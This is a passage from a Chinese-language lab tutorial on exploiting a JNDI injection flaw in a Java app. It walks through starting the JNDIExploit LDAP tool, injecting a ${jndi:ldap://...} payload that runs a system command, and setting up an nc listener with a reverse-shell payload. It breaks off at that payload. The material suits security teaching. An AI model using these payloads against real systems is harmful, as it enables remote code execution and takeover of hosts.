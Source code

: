 ![图片描述](https://doc.shiyanlou.com/courses/uid454817-20211214-1639489247883)

[JNDIexploit](https://github.com/feihongcs/JNDIExploit) 一款用于 JNDI 注入利用的工具，利用它我们可以快速搭建 LDAP 服务。

可以先使用 `-u` 参数查看支持的功能列表：

```bash
java -jar JNDIExploit-1.2-SNAPSHOT.jar -u
```

![图片描述](https://doc.shiyanlou.com/courses/uid454817-20211214-1639489325485)

如上图所示，如果需要执行系统命令，查询的格式应该是：`ldap://<IP>:1389/Basic/Command/cmd`，其中 `cmd` 替换为我们想执行的系统命令即可。

使用如下命令启动 LDAP 服务：

```bash
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 127.0.0.1
```

![图片描述](https://doc.shiyanlou.com/courses/uid454817-20211214-1639489387324)

如上图所示，LDAP 服务默认运行在 1389 端口。

回到 IDEA，在 `userinput` 中输入以下 Payload:

```txt
${jndi:ldap://127.0.0.1:1389/Basic/Command/xcalc}
```

Payload 说明：

- 执行系统命令 `xcalc`，意为打开系统计算器。

![图片描述](https://doc.shiyanlou.com/courses/uid454817-20211214-1639489463911)

我们点击 run，可以看到成功执行系统命令 `xcalc` 并打开了计算器：

![图片描述](https://doc.shiyanlou.com/courses/uid454817-20211214-1639489480796)

回到终端界面，可以看到 LDAP 请求的记录：

![图片描述](https://doc.shiyanlou.com/courses/uid454817-20211214-1639489497481)

## 漏洞利用方式（获取主机控制权限）

通过上一部分实验，我们已经可以执行系统命令，接下来反弹 shell 也就变成非常容易的事。

新打开一个终端，运行如下命令使用 `nc` 监听 1234 端口:

```bash
nc -lnvp 1234
```

![图片描述](https://doc.shiyanlou.com/courses/uid454817-20211221-1640099276384)

修改 Payload 为：

```bash
${jndi:ldap://127.0.0.1:1389/Basic/ReverseShell/127.0.0.1/1234}
```
